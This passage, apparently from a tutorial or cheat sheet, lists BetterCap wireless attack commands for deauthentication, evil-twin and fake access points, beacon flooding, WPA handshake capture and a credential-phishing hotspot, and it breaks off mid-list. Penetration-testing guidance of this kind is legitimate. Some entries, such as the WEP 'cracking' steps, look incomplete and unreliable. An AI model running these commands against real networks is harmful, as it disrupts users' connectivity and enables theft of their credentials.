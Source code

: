 #### Wireless Network Attacks

BetterCap includes robust tools for attacking wireless networks, making it useful in both penetration testing and red team exercises.

1. **Wi-Fi Reconnaissance**: Scans and associates with nearby Wi-Fi networks, gathering detailed information about them.
    ```bash
    wifi.recon on
    wifi.assoc on
    ```
2. **Wi-Fi Deauthentication Attack**: Forces a device to disconnect from a Wi-Fi network, often used to capture WPA handshakes.
    ```bash
    wifi.deauth <target_bssid>
    ```
3. **Fake Access Point Attack**: Creates a fake Wi-Fi access point to lure clients into connecting, enabling further attacks.
    ```bash
    wifi.ap on
    set wifi.ap.ssid <fake_ssid>
    set wifi.ap.channel <channel>
    ```
4. **Probe Request Sniffing**: Sniffs Wi-Fi probe requests from devices looking for known networks, useful for tracking devices or identifying preferred networks.
    ```bash
    wifi.probe on
    ```
5. **WEP Cracking**: Cracks WEP encryption by capturing enough packets during a deauthentication attack.
    ```bash
    wifi.recon on
    wifi.assoc <target_bssid>
    wifi.deauth <target_bssid>
    ```
6. **Evil Twin Attack**: Sets up a rogue access point with the same SSID as a legitimate one, tricking clients into connecting.
    ```bash
    wifi.ap on
    set wifi.ap.ssid <legitimate_ssid>
    set wifi.ap.channel <channel>
    wifi.deauth <target_bssid>
    ```
7. **Capturing WPA Handshakes for Offline Cracking**: Captures WPA handshakes by forcing clients to reconnect, allowing for offline cracking with tools like `aircrack-ng`.
    ```bash
    wifi.recon on
    wifi.deauth <target_bssid>
    wifi.assoc <target_bssid>
    ```
8. **Beacon Frame Flooding**: Floods the airwaves with fake SSIDs, disrupting normal Wi-Fi operation.
    ```bash
    wifi.beaconspam on
    set wifi.beaconspam.ssid <fake_ssid>
    ```
9. **Wi-Fi Phishing Attack**: Sets up a fake Wi-Fi network with a phishing page to capture credentials.
    ```bash
    wifi.ap on
    set wifi.ap.ssid <phishing_ssid>
    set http.proxy.script wifi-phishing.js
    http.proxy on
    net.sniff on